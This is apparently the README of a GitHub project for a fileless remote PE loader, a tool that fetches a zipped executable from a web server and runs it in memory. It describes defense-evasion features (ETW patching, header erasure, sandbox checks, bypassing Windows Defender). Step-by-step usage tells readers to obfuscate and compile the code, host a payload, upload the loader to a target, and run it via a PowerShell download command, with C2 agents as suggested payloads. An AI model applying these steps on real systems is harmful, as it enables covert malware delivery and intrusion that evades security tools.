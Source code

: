 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader enables direct in-memory execution of a x64 PE file (exe embeded in a zip file) retrieved from a remote web server.
It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Downloads, decompresses, and executes in-memory a remote x64 PE) 
- ETW bypass in user-mode (patching EtwEventWrite functions)
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...


#### USAGE
- STEP 1 - Obfuscate the source code by removing all comments and 'printf' statements, renaming function and variable names, etc.

- STEP 2 - Compile the source code.  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example with Visual Studio 2022 Developer Command Prompt v17.14.14:
-------------------------------------------------------------------
c:\path-to-project\Fileless-Remote-PE-Loader> echo IDI_ICON1 ICON "myicon.ico" > appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> rc appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe appicon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
```
Examples:
---------
- http://XX.XX.XX.XX:8080/file.zip
- http://XX.XX.XX.XX/file.zip
- https://your.website/file.zip
```
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and create in the same folder an "url.txt" file that contains the url to download your zip file.
		   When you will run the loader, it will download, unzip and execute in-memory your compressed PE file (x64 exe) located on your remote web server ('url.txt' file).
```
1. Download the loader
----------------------
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe"
c:\temp> echo "http://ip/file.zip" > C:\temp\url.txt

2. Run the loader with the arguments to pass to the PE
------------------------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
or
2.bis Run the loader without argument
-------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth because the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


